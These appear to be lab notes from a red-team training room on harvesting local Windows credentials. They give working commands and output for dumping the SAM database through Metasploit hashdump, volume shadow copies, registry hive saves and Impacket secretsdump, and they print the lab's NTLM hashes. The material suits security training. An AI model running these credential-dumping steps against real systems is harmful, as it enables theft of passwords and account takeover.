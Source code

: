 In general, Windows operating system provides two types of user accounts: Local and Domain. Local users' details are stored locally within the Windows file system, while domain users' details are stored in the centralized Active Directory. This task discusses credentials for local user accounts and demonstrates how they can be obtained.

## Keystrokes
Keylogger is a software or hardware device to monitor and log keyboard typing activities. Keyloggers were initially designed for legitimate purposes such as feedback for software development or parental control. However, they can be misused to steal data. As a red teamer, hunting for credentials through keyloggers in a busy and interactive environment is a good option. If we know a compromised target has a logged-in user, we can perform keylogging using tools like the Metasploit framework or others.

## Security Account Manager (SAM)
The SAM is a Microsoft Windows database that contains local account information such as usernames and passwords. The SAM database stores these details in an encrypted format to make them harder to be retrieved. Moreover, it can not be read and accessed by any users while the Windows operating system is running. However, there are various ways and attacks to dump the content of the SAM database.

Confirming No Access to the SAM Database
```shell-session
C:\Windows\system32>type c:\Windows\System32\config\sam
type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\ 
copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
        0 file(s) copied.
```

## Metasploit's HashDump
The first method is using the built-in Metasploit Framework feature, hashdump, to get a copy of the content of the SAM database. The Metasploit framework uses in-memory code injection to the LSASS.exe process to dump copy hashes.

LSASS, or **Local Security Authority Subsystem Service**, is a critical component of the Windows operating system. It is a process that is responsible for enforcing security policies and handling user authentication in Windows. The `lsass.exe` process is an essential part of the operating system and plays a central role in managing credentials and ensuring secure access.
```shell-session
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```

## Volume Shadow Copy Service
The other approach uses the Microsoft Volume shadow copy service, which helps perform a volume backup while applications read/write on volumes.

More specifically, we will be using wmic to create a shadow volume copy. This has to be done through the command prompt with **administrator privileges** as follows,
1. Run the standard cmd.exe prompt with administrator privileges.
2. Execute the wmic command to create a copy shadow of C: drive
3. Verify the creation from step 2 is available.
4. Copy the SAM database from the volume we created in step 2

Creating a Shadow Copy of Volume C with WMIC:
```shell-session
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
```

Once the command is successfully executed, let's use the `vssadmin`, Volume Shadow Copy Service administrative command-line tool, to list and confirm that we have a shadow copy of the `C:` volume.

Listing the Available Shadow Volumes
```shell-session
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

The output shows that we have successfully created a shadow copy volume of (C:) with the following path: `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`

As mentioned previously, the SAM database is encrypted either with [RC4](https://en.wikipedia.org/wiki/RC4) or [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encryption algorithms. In order to decrypt it, we need a decryption key which is also stored in the files system in `c:\Windows\System32\Config\system`.

Now let's copy both files (sam and system) from the shadow copy volume we generated to the desktop as follows:

Copying the SAM and SYSTEM file from the Shadow Volume
```shell-session
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
```

Now we have both required files, transfer them to the AttackBox with your favourite method (SCP should work).

## Registry Hives
Another possible method for dumping the SAM database content is through the Windows Registry. Windows registry also stores a copy of some of the SAM database contents to be used by Windows services. Luckily, we can save the value of the Windows registry using the reg.exe tool. As previously mentioned, we need two files to decrypt the SAM database's content. Ensure you run the command prompt with Administrator privileges.

Save SAM and SYSTEM files from the registry
```shell-session
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>
```

Let's this time decrypt it using one of the Impacket tools: `secretsdump.py`, which is already installed in the AttackBox. The Impacket SecretsDump script extracts credentials from a system locally and remotely using different techniques. 

*Decrypting SAM Database using Impacket SecretsDump Script Locally*
```shell-session
user@machine:~# python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

**Note:**
	We used the SAM and System files that we extracted from Windows Registry. The `-sam` argument is to specify the path for the dumped sam file from the Windows machine. The `-system` argument is for a path for the system file. We used the `LOCAL` argument at the end of the command to decrypt the Local SAM file as this tool handles other types of decryption.

If we compare the output against the NTLM hashes we got from Metasploit's Hashdump, the result is different. The reason is the other accounts belong to Active Directory, and their information is **not** stored in the System file we have dumped. To Decrypt them, we need to dump the *SECURITY* file from the Windows file, which contains the required files to decrypt *Active Directory accounts*.

Once we obtain NTLM hashes, we can try to crack them using Hashcat if they are guessable, or we can use different techniques to impersonate users using the hashes.


## Example
Follow the technique discussed in this task to dump the content of the SAM database file. What is the NTLM hash for the Administrator account?

- Creating a Shadow Copy of Volume C with WMIC:
	![](Pasted%20image%2020241123160319.png)
- Listing the Available Shadow Volumes
	  ![](Pasted%20image%2020241123160500.png)
- Copying the SAM and SYSTEM file from the Shadow Volume
	![](Pasted%20image%2020241123161806.png)
		OR 
		
	Copying the SAM and SYSTEM file from the Registry
	![](Pasted%20image%2020241123161939.png)
- Transfer to local machine using SCP 
	![](Pasted%20image%2020241123163010.png)
- *Decrypting SAM Database using Impacket SecretsDump Script Locally
	![](Pasted%20image%2020241123163428.png)![](Pasted%20image%2020241123163640.png)
